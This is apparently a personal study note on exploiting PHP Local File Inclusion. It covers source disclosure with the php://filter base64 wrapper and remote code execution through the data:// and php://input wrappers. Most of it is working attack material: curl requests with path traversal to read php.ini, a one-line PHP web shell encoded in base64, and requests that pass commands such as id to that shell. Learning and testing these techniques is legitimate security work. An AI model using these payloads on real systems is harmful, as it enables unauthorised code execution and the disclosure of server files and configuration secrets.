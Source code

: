 ```

#### Source Code Disclosure

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. Let's try to read the source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, as follows:

```php://filter/read=convert.base64-encode/resource=config```


this is if the app automatically appends .php in the end of the request ,else we will have to provide it





## Gaining RCE


### PHP Wrappers


#### Data Wrapper



only available to use if the (allow_url_include) setting is enabled 

- include the PHP configuration file found at /etc/php/X.Y/apache2/php.ini for Apache 
- or at /etc/php/X.Y/fpm/php.ini for Nginx, where X.Y is your install PHP version

```
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

```



```$ echo '<?php system($_GET["cmd"]); ?>' | base64```


Now, we can URL encode the base64 string, and then pass it to the data wrapper with data://text/plain;base64,. Finally, we can use pass commands to the web shell with &cmd=<COMMAND>: 
```
    $ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```



#### Input Wrapper


used to include external input. The difference between it and the data wrapper is that we pass our input to the input wrapper as a POST request's data.
The vulnerable parameter must accept POST requests and also depends on the allow_url_include setting, aswell

Add the  web shell as POST data and pass  a GET parameter with the command to execute:

```$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid```

```